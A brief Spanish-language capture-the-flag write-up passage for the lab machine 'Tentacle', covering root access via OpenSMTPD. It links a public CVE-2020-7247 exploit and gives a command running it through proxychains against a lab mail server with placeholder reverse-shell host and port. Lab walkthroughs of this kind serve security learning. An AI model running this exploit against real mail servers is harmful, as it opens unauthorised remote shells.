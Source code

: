 ![Steps](/assets/img/Linux/Tentacle/Steps.png)

![root_OpenSMTPD](/assets/img/Linux/Tentacle/root_OpenSMTPD.png)

## OpenSMPTD - Rev#2

Aprox hace 4 meses alguien ha adaptado un script en python justamente para esta maquina : 

* | [CVE-2020-7247 Custom Exploit ](https://github.com/QTranspose/CVE-2020-7247-exploit)

Esta es la forma de uso segun podemos leer en el repositorio: 

`python3 exploit.py <target_host> <target_port> <reverse_host> <reverse_port> <recipient_email>` 

El cual seria de esta forma : 

```bash
proxychains -f /etc/proxychains.conf python3 exploit.py 10.241.251.113 25 TuIP Puerto j.nakazawa@realcorp.htb
```

